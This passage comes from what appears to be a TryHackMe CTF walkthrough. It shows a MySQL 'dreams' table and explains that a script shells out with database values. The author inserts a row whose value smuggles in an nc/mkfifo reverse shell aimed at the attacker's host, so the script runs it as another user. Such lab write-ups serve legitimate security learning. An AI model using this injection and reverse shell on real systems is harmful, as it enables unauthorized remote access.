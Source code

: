   ```
  mysql> use library;
  Reading table information for completion of table and column names
  You can turn off this feature to get a quicker startup with -A
  
  Database changed
  mysql> show tables;
  +-------------------+
  | Tables_in_library |
  +-------------------+
  | dreams            |
  +-------------------+
  1 row in set (0.00 sec)
  
  mysql> select * from dreams;
  +---------+------------------------------------+
  | dreamer | dream                              |
  +---------+------------------------------------+
  | Alice   | Flying in the sky                  |
  | Bob     | Exploring ancient ruins            |
  | Carol   | Becoming a successful entrepreneur |
  | Dave    | Becoming a professional musician   |
  +---------+------------------------------------+
  4 rows in set (0.00 sec)
  ```

- OK, now comes the best part. You can see that the `getDreams.py` script adds users to this database by executing `command = f"echo {dreamer} + {dream}"`.
  So now we are going to add a reverse shell as a new user and run the script as `death` which is confirmed with `sudo -l`.
  This is the paylod: `INSERT INTO dreams (dreamer, dream) VALUES ('[USERNAME]', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] [PORT] >/tmp/f)');`

  ```
  mysql> INSERT INTO dreams (dreamer, dream) VALUES ('Bimbo', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f)');
  Query OK, 1 row affected (0.02 sec)
  
  mysql> select * from dreams;
  +---------+-------------------------------------------------------------------------------------+
  | dreamer | dream                                                                               |
  +---------+-------------------------------------------------------------------------------------+
  | Alice   | Flying in the sky                                                                   |
  | Bob     | Exploring ancient ruins                                                             | 
  | Carol   | Becoming a successful entrepreneur                                                  |
  | Dave    | Becoming a professional musician                                                    |
  | Bimbo   | $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f) |
  +---------+-------------------------------------------------------------------------------------+
  5 rows in set (0.00 sec)
  ```
  
- Start a listener and run a script.
